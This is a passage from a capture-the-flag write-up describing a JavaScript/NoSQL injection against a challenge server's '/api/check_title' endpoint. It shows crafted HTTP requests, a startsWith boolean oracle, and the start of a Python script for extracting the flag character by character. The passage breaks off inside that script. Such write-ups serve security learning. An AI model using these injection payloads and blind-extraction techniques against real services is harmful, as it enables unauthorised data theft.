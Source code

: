 However, calling `.x` on non-existing properties throws an error:

```html
GET /api/check_title?title=testtitle'+||+this.foo.x=='bar HTTP/1.1
Host: one.jh2i.com:50009
Connection: close


HTTP/1.0 400 BAD REQUEST
Content-Type: text/html; charset=utf-8
Content-Length: 164
Server: Werkzeug/1.0.1 Python/3.6.9
Date: Wed, 17 Jun 2020 22:22:17 GMT

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>400 Bad Request</title>
<h1>Bad Request</h1>
<p>TypeError: this.foo is undefined :<br>@:1:15<br></p>
```

Using this trick, I found out that (at least) the following properties exist on `this`: 

* `title`
* `category`
* `author`
* `content`

Assuming the title contains the flag, I only need to find a way to test for regexes or substrings on that property. After a bit of guessing I found out that I can use `startswith` on strings. Combining that with the knowledge how to end a query gave me the following request that can be used as oracle:

```html
GET /api/check_title?title=x'%3b+return+this.title.startsWith('L')%3b})// HTTP/1.1
Host: one.jh2i.com:50009
Connection: close


HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 1
Server: Werkzeug/1.0.1 Python/3.6.9
Date: Wed, 17 Jun 2020 22:29:32 GMT

1
```

I wrote the a small Python script that retrieves the flag character by character:

```python
import requests
import string

RHOST = "one.jh2i.com"
RPORT = 50009

PROXIES = {}
# PROXIES = { "http": "http://127.0.0.1:8080" }

def test(payload):
    url = f"http://{RHOST}:{RPORT}/api/check_title"
    params = { "title": "Lasagne'; return this.title.startsWith('" + payload + "')});//" }
    res = requests.get(url, params=params, proxies=PROXIES)
    return res.text.strip() != "0"


if __name__ == "__main__":
    result = ""
```